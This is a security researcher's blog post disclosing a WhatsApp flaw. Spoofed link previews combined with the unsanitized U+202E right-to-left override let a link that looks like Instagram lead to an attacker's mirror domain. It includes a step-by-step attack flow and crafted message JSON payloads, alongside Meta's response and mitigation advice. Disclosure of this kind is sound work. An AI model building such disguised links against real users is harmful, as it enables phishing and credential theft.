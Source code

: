 ```yaml
---
title: Don't Believe Your Eyes - A WhatsApp Clickjacking Vulnerability
categories:
- Reverse Engineering
tags:
- Phishing
- ClickJacking
---
```

Imagine you have received a WhatsApp message with a link to `ln.instagram.com`.  
Where do you think the link leads? Instagram? Think again.

I have found [clickjacking](https://en.wikipedia.org/wiki/Clickjacking) vulnerability in WhatsApp that enables phishing attacks.  
An attacker is able to send a crafted message to anyone/group with a link that appears to lead to a legitimate website, but in fact the link leads to any website of the attackers choice.

## Discovery Process
I started my research looking for a way to make a message recipient perform a request. My initial thought was to check WhatsApp's link preview feature. I hoped the the link would be rendered twice, once by the sender and once by the receiver. In order to check my theory I created a [webhook](https://webhook.site/) and sent it to a friend. Sadly only 1 request was made, only by me.  
That got me thinking. If the receiver does not render the link for themselves, that must mean I send both the link and the rendering. If so, I wonder if I can send a link to one site but a rendering of a different site.

### Issue #1 - Link Preview Mismatch
An attacker can craft a message with a link to `google.com` and a preview for `instagram.com`

### Issue #2 - Disguising Links
There is no sanitization for the unicode character 'U+202E' (RIGHT-TO-LEFT OVERRIDE) for messages that include links.
This character alters the way text is presented to the user by displaying the text in reverse order.

## Attack Scenario
Utilizing both these issues can allow an attacker to perform phishing attacks where they construct links that look like legitimate websites but actually lead to the attacker's site, in order to steal sensitive information.

The full attack flow:
1. The attacker purchases the mirror domain of the site they would like to impersonate.
   For example `moc.margatsni.nl` to impersonate `ln.instagram.com`
2. The attacker creates a message with a link to original domain in order to use its preview.
```json
{
    "text": "https://instagram.com/",
    "matchedText": "https://instagram.com/",
    "canonicalUrl": "https://instagram.com/",
    "description": "Create an account...",
    "title": "Instagram",
    "jpegThumbnail": {},
    "previewType": 0,
    "mediaKey": {},
    "mediaKeyTimestamp": 1693302818542,
    "thumbnailDirectPath": "/v/t62.36...",
    "thumbnailSha256": {},
    "thumbnailEncSha256": {},
    "thumbnailHeight": 1024,
    "thumbnailWidth": 1024,
    "inviteLinkGroupTypeV2": 0
}
```
3. The attacker then removes the `matchedText` property and changes the `text` property to the following value:
   `U+202E` + "URL to the mirror domain" + `//:sptth`
```json
{
    "text": "\u202ehttps://moc.margatsni.nl//:sptth",
    "canonicalUrl": "https://instagram.com/",
    "description": "Create an account...",
    "title": "Instagram",
    "jpegThumbnail": {},
    "previewType": 0,
    "mediaKey": {},
    "mediaKeyTimestamp": 1693302818542,
    "thumbnailDirectPath": "/v/t62.36...",
    "thumbnailSha256": {},
    "thumbnailEncSha256": {},
    "thumbnailHeight": 1024,
    "thumbnailWidth": 1024,
    "inviteLinkGroupTypeV2": 0
}
```
4. Finally the attacker sends the crafted message to their victim

## Meta's Response
> Because we support many different platforms and environments, there are a significant number of ways that some platform could choose to normalize a URL differently than our server-side logic does. To address that, we have systems in place which allow us to adjust our URL normalization logic dynamically in the event of real-world spam and abuse.

Meta has shown no intention to resolve this security issue, and from their response it seems that they will try to stop these attacks only if their systems detect them as spam.
This means that WhatsApp users can only cross their fingers that they won't fall victims to this phishing attack.  
Apposed to WhatsApp, other platforms such as X, TikTok, and Pinterest, all have sanitization of the `U+202E` character in reference to links.
## Mitigation
Because Meta has no intention of fixing this issue, links on WhatsApp cannot be trusted.
In order not to fall victim to this kind of phishing attack, before clicking on a link, copy it. The clipboard preview should show the link address while sanitizing the `U+202E` character.